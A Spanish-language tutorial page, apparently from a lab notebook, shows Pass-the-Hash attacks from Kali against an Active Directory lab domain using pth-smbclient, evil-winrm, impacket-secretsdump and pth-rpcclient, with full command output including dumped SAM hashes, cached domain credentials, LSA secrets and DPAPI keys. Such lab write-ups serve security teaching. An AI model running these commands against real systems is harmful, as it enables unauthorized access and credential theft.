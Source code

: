 ```yaml
---
icon: unlock
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pass-The-Hash con Linux

Si queremos realizar lo mismo de antes, pero desde `linux` lo haremos con una herramienta que viene por defecto en `kali`, suponiendo que tenemos ya el `hash` del `administrador` o de cualquier tipo de usuario con el que queremos realizar ese `pth`, haremos lo siguiente:

```shell
pth-smbclient //192.168.5.5/c$ -U Administrator --pw-nt-hash a87f3a337d73085c45f9416be5787d86 -W corp.local
```

Info:

```
Try "help" to get a list of possible commands.
smb: \> ls
  $Recycle.Bin                      DHS        0  Sat May  8 04:20:24 2021
  Documents and Settings          DHSrn        0  Sun Jan  5 05:22:02 2025
  DumpStack.log.tmp                 AHS    12288  Tue Jan 21 03:14:12 2025
  pagefile.sys                      AHS 536870912  Tue Jan 21 03:14:12 2025
  PerfLogs                            D        0  Sat May  8 04:20:24 2021
  Program Files                      DR        0  Sun Jan  5 05:28:08 2025
  Program Files (x86)                 D        0  Sat May  8 05:39:35 2021
  ProgramData                       DHn        0  Sat Jan 11 10:12:12 2025
  Recovery                         DHSn        0  Sun Jan  5 05:22:02 2025
  Shares                              D        0  Mon Jan  6 07:06:47 2025
  System Volume Information         DHS        0  Sun Jan  5 06:12:17 2025
  Users                              DR        0  Sun Jan  5 05:28:05 2025
  Windows                             D        0  Tue Jan  7 14:12:54 2025

                15644159 blocks of size 4096. 12751911 blocks available
```

Vemos que hemos conseguido conectarnos al `DC` en el recurso compartido del `C$` como el `administrador` por lo que tendriamos acceso al `DC` desde `kali` como el usuario `Administrador` del dominio.

Esto mismo tambien lo podemos realizar mediante el protocolo `WinRM` (Protocolo de gestion remota, que suele estar activo en casi todas las infraestructuras de empresas de `Active Directory`), para ello antes activaremos este mismo protocolo en nuestra maquina `Windows` para que este activo y configurado con un comando, por lo que nos iremos a nuestro `WS01`, abriremos una `PowerShell` como `administrador` local y ejecutaremos lo siguiente:

```powershell
winrm quickconfig
```

Info:

```
WinRM no está configurado para recibir solicitudes en este equipo.
Se deben realizar estos cambios:

Inicie el servicio WinRM.
Establezca el tipo de servicio WinRM en inicio automático aplazado.

¿Desea realizar estos cambios [y/n]? y

WinRM se ha actualizado para recibir solicitudes.

Se cambió el tipo de servicio WinRM correctamente.
Servicio WinRM iniciado.
WinRM no está configurado para permitir acceso remoto al equipo para administración.
Se deben realizar estos cambios:

Habilitar la excepción de firewall WinRM.

¿Desea realizar estos cambios [y/n]? y

WinRM se actualizó para administración remota.

Excepción de firewall WinRM habilitada.
```

Y con esto ya tendriamos nuestro `WinRM` activado correctamente.

Ahora si nos vamos al `kali` y utilizamos una herramienta muy famosa llamada `evil-winrm` que no vendra por defecto en `kali`, podremos acceder de forma remota para gestionar un equipo mediante el protocolo `evil-winrm`, vamos a instalar la herramienta antes de todo.

```shell
sudo gem install evil-winrm
```

Y con esto ya tendriamos instalada la herramienta.

Vamos a probar a entrar en el equipo `WS01` de forma remota como el usuario `Administrador` de la siguiente forma:

```shell
evil-winrm -i 192.168.5.208 -u Administrator -p Passw0rd
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Y con esto veremos que funciona correctamente, por lo que nos podemos conectar a dicho equipo.

Pero como nosotros no tenemos la contraseña, solo tenemos el `hash` del `Administrador` podremos hacer un `pth` con `winrm` de la siguiente forma:

```shell
evil-winrm -i 192.168.5.208 -u Administrator -H a87f3a337d73085c45f9416be5787d86
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
corp\administrator
```

Y con esto veremos que con el `hash` tambien nos dejo entrar.

Con la herramienta `impacket` se puede hacer lo mismo, con el `hash` podremos autenticarnos como el `administrador` para realizar cosas como el mismo.

```shell
impacket-secretsdump Administrator@192.168.5.208 -hashes :a87f3a337d73085c45f9416be5787d86
```

Hay que indicarselo con un formato especial para la herramienta poniendo los `:` por delante del `hash`.

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xc8125866b327df176940c9f2d6a48f5f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5ed544e71abe56b376b7993b21946520:::
santiago:1001:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
[*] Dumping cached domain logon information (domain/username:hash)
CORP.LOCAL/empleado1:$DCC2$10240#empleado1#fda53d6158406f827388476bcbc97c37: (2025-01-20 09:22:18)
CORP.LOCAL/Administrator:$DCC2$10240#Administrator#e1c8d7e26653ae629a74772a389cf7e6: (2025-01-20 09:23:12)
CORP.LOCAL/annice.mable:$DCC2$10240#annice.mable#77702054bffe13f7c5bbe919a228d985: (2025-01-12 11:36:13)
CORP.LOCAL/angelika.shelly:$DCC2$10240#angelika.shelly#835512d4e4bb1d962c57d290eb99f670: (2025-01-12 16:51:40)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
CORP\WS01$:aes256-cts-hmac-sha1-96:9a9fc7447f8fa5521eeef5af175be7af2189392bc0d56f2e7d41e4c15cdad294
CORP\WS01$:aes128-cts-hmac-sha1-96:73670fc7a88720c24ff4c869dc84a9c1
CORP\WS01$:des-cbc-md5:8c5bea107cc8c804
CORP\WS01$:plain_password_hex:5700320055006b0049004e0027003d005e0055005c00750052004c0077006e004e00510045003c002d0066005d004b005f007600330072004400350022002700750068004e00300041003d0024006c004e0022005700750065006b00640034004a0056006f003e006c005f006c0050005c005d002700360077002c00290033005e005d004f005e005100560027002e003200380029004f0078005100410049002c003a0025005f00680072005d00380034002500490068002200640045006f0072005c0063002d0022005f002f006f0065006700720022005f0061006c00780047006400590062007700770059005f00
CORP\WS01$:aad3b435b51404eeaad3b435b51404ee:afc5c02d936d73808ce716070e883ab8:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6be6aee6bc489e7fab1ed9a63b1aa5c0d2f13fef
dpapi_userkey:0xb83f8122ee552579d8fbf4d9b304ae19ab5bb7af
[*] NL$KM 
 0000   5C B5 3B 8C D5 28 A0 C3  6A F2 57 A3 08 B6 F7 D4   \.;..(..j.W.....
 0010   E4 7D 11 84 8F 2C 98 2B  2D DD 06 7D 30 53 B4 23   .}...,.+-..}0S.#
 0020   4B 8D C7 7E 92 96 5B 48  67 29 99 50 C1 E4 27 A6   K..~..[Hg).P..'.
 0030   37 2C 9D 99 E8 FD 57 11  CC 44 47 ED 30 6F 96 00   7,....W..DG.0o..
NL$KM:5cb53b8cd528a0c36af257a308b6f7d4e47d11848f2c982b2ddd067d3053b4234b8dc77e92965b4867299950c1e427a6372c9d99e8fd5711cc4447ed306f9600
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

Y vemos que nos vuelva bien la `SAM` como el usuario `Administrador`.

Mediante el `rpcclient` tambien podremos realizar este `pth` de la siguiente forma:

```shell
pth-rpcclient -U corp/administrator%00000000000000000000000000000000:a87f3a337d73085c45f9416be5787d86 //192.168.5.208
```

En este caso como tiene que tener un formato en concreto el `hash` pero el nuestro es un `hash` simple tendremos que rellenarlo con `32` ceros por delante y despues de los `:` poner el `hash` del `administrador`.

Info:

```
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
rpcclient $>
```

Y aqui podremos ver que hemos accedido de forma correcta mediante el protocolo `rpcclient` haciendo un `pth`.
